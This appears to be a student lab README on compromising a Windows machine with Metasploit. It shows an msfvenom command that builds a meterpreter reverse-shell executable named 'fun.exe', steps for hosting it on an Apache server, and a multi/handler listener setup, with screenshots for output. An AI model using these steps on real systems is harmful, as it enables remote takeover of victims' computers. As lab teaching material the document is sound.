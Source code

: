 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT :

### Find the attackers ip address using ifconfig

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/01c5be4f-d110-4f45-88ba-3fa20c901454)

### Create a malicious executable file fun.exe using msenom command
** sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/1fc78e30-3309-499c-97f2-0a162c6277fe)

### copy the fun.exe into the apache
**/var/www/html folder**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/cf556404-70fb-4bd2-8a0b-96f75e64abaa)

### Start apache server 
**sudo systemctl apache2 start**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/8c0e6c41-d22b-4960-96d3-94b3cc8cc288)

### Check the status of apache2


### Invoke msfconsole :

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/e3c58ef7-0586-41fa-9037-f1c654be417a)

### Type "HELP" or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/a89d09fd-9512-4fa1-b0e6-07f76badfb7f)

### Starting a command and control Server use multi/handler 
**set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/5bbc881e-b4e0-4f64-8749-2a1d8cfb308e)






## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

